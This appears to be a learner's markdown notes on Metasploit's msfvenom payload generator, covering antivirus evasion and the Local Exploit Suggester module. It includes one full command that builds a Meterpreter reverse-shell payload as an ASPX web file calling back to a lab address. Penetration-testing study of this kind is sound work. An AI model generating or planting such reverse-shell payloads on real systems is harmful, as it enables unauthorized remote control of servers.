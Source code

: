 - `MSFVenom` is the successor of `MSFPayload` and `MSFEncode`, two stand-alone scripts that used to work in conjunction with `msfconsole` **to provide users with highly customizable and hard-to-detect payloads for their exploits.**
- The AV evasion part is much more complicated today, as signature-only-based analysis of malicious files is a thing of the past. **`Heuristic analysis, machine learning, and deep packet inspection` make it much harder for a payload to run** through several subsequent iterations of an encoding scheme to evade any good AV software.

# Creating Our Payloads
---
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx`

# Local Exploit Suggester
---
- As a tip, there is a module called the `Local Exploit Suggester`.
- Having these results in front of us, we can easily pick one of them to test out. **==If the one we chose is not valid after all, move on to the next. Not all checks are 100% accurate, and not all variables are the same.==**